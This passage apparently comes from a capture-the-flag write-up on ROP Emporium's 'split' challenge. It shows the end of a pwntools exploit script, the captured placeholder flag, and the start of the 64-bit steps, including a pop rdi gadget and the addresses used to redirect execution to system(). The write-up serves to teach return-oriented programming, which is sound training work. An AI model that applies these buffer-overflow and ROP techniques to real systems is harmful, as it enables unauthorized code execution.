 ```
p = start()

# Send the payload after the ">" input prompt
p.sendlineafter(b"> ", payload)
p.interactive()

# Close connection
p.close()
```

After running the exploit script, I got the output:
```
Thank you!
ROPE{a_placeholder_32byte_flag!}
```

## x86-64 (64-bit) Binary Exploitation
I followed the same steps as I did during the exploitation of the x86 binary.

- Disassemble the binary
- Find the offset
- Write the payload

However, for 64-bit binaries, when calling a function and passing arguments, you have to pass the argument via registers. So for this one, I needed to find a `pop rdi; ret` gadget.

### Step 1: Disassemble the Binary
The functions were the exact same as the x86 binary, however the memory addresses were different.

**Address of the usefulFunction() Function:** `0x0000000000400742`

**Address of the system() call within usefulFunction():** `0x000000000040074b`

**Address of the "/bin/cat flag.txt" String:** `0x00601060`

### Step 2: Finding the Offset
![GDB-GEF Segmentation Fault](/assets/images/ROP_Emporium/split/finding_the_offset_64-bit.png)